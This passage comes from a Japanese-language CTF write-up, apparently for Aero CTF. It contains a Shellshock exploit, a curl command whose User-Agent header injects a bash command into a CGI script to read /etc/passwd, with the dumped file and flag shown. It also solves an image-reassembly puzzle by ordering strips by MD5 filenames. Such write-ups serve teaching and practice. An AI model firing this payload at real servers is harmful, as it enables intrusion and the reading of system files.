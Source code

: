 Shellshock を試してみましょう。

```
$ curl "http://81.23.11.159:8080/cgi-bin/stats" -A "() { :; }; echo; /bin/bash -c 'cat /etc/passwd';"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Aero{c58b51bee681ba3aa3971cef7aa26696}
```

フラグが得られました。

```
Aero{c58b51bee681ba3aa3971cef7aa26696}
```

## Code
### damaged ticket (150)
> I left my computer unattended for a while and did not block it. I had a plane ticket on the desktop, someone had damaged it and now I have only small parts of the ticket, as if it had passed through a "shredder". Help me recover the ticket, I have a plane in a couple of hours!
> 添付ファイル: parts.7z

与えられた 7z ファイルを展開すると、`00ec53c4682d36f5c4359f4ae7bd7ba1.png` のようなファイル名の画像が 600 個出てきました。`00ec53c4682d36f5c4359f4ae7bd7ba1` でググってみると、これは `381` の MD5 ハッシュであることが分かります。

`md5(0).png` ~ `md5(599).png` の順番で結合してみましょう。

```python
import hashlib
from PIL import Image
im = Image.new('RGB', (600, 267))
for x in range(600):
  im2 = Image.open('parts/{}.png'.format(hashlib.md5(str(x).encode()).hexdigest()))
  im.paste(im2, (x, 0))
im.show()
```

フラグが得られました。
